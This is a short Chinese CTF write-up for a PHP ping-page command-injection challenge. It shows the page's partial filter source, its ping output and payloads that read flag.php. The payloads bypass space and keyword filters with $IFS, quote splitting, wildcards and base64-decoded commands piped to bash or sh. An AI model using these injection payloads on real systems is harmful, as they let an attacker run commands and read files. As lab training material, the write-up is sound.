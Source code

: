 ![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=OTQ2MTUzYWQ2NTk3ZWViZmIxMGMxYTg0MWY4YmUwYmRfV0hmbW1VN3JQdndoVEQyYmVJUVBDbHExMElHbkxJRXVfVG9rZW46VTlMRmJZSjhVb0tIeDN4NnJYZWM4c3NEbnljXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

过滤flag

```PHP
?ip=127.0.0.1;cat$IFS$9flag.php
?ip=127.0.0.1;cat$IFS$9fl''ag.php
?ip=127.0.0.1;cat$IFS$9fl*
```

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=Y2U5N2FhMWE1NzliZWM4MzFlODBiY2EwMzU4OGU4NDFfalhxdVNrN1FZTUtDeEYwOFNlMUw2OUJuUHVKZW9QSENfVG9rZW46UWloZmIxczc0b09pdDR4V2lJa2Nsd3lPbjJlXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

查看一下index

```PHP
?ip=127.0.0.1;cat$IFS$9flag.php
```

看回显得到

```PHP
/?ip= 
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.078 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.112 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.101 ms
64 bytes from 127.0.0.1: seq=3 ttl=42 time=0.113 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 0.078/0.101/0.113 ms
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

可以看到过滤规则

1. 

```PHP
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```
